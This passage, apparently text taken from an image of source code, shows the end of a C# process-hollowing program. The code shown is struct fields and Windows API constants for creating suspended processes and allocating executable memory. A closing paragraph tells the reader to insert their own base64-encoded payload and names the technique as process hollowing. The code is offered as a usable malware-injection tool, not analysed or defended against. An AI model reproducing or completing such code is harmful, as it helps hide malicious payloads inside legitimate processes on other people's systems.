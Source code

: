 ```
        public ulong Reserved3;
        public ulong Reserved4;
        public ulong Reserved5;
        public ulong Reserved6;
        public ulong Reserved7;
        public ulong Reserved8;
        public ulong Reserved9;
        public ulong Reserved10;
        public ulong Reserved11;
        public ulong Reserved12;
        public ulong Reserved13;
        public ulong Reserved14;
        public ulong Reserved15;
    }

    [Flags]
    enum ProcessCreationFlags : uint
    {
        CREATE_SUSPENDED = 0x00000004
    }

    [Flags]
    enum AllocationType : uint
    {
        Commit = 0x1000,
        Reserve = 0x2000
    }

    [Flags]
    enum MemoryProtection : uint
    {
        ExecuteReadWrite = 0x40
    }

    [Flags]
    enum CONTEXT_FLAGS : uint
    {
        CONTROL = 0x10001
    }
}
```

Replace `"BASE64_ENCODED_PAYLOAD_HERE"` with your base64-encoded payload. Ensure that you have proper permissions to manipulate the target process. This example demonstrates the general steps involved in process hollowing.